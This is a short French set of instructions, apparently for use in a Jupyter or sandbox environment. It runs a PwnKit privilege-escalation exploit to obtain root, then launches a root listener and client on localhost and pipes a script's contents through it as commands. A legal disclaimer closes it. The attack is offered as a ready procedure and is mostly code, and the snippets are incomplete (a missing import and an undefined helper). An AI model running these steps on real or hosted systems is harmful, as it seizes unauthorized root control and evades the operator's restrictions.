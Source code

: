Instructions d'Exécution
Exécuter l'Exploit PwnKit :

Ce script doit être exécuté en premier pour obtenir les privilèges root.
bash
Copier le code
python3 exploit_pwnkit.py
Démarrer l'Écouteur :

Avec les privilèges root obtenus, démarrer l'écouteur.

```python
import subprocess

# Démarrage du client comme sous-processus
client_process = subprocess.Popen(
    ["python3", "/mnt/data/client_root.py", "localhost", "8890"],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)
```

De retour coté jupyter:

```python
import subprocess

# Fonction pour envoyer le fichier au client
def send_file_to_client(file_path):
    with open(file_path, 'r') as file:
        commands = file.read()
        return send_command_to_client(commands)

# Envoi du fichier au client
output = send_file_to_client(audit_script_path)
print(output)

# Lire les résultats
with open('/tmp/audit_results.json', 'r') as result_file:
    audit_results = json.load(result_file)

# Afficher les résultats
print(audit_results)

```

exploit_pwnkit.py : Pour exploiter PwnKit.
listener_root.py : Pour démarrer un écouteur avec des privilèges root.
client_root.py : Pour se connecter à l'écouteur et envoyer des commandes.
Avertissement
L'utilisation de ces scripts doit être faite de manière responsable et uniquement dans des environnements où vous avez l'autorisation appropriée. L'utilisation non autorisée peut entraîner des conséquences légales.

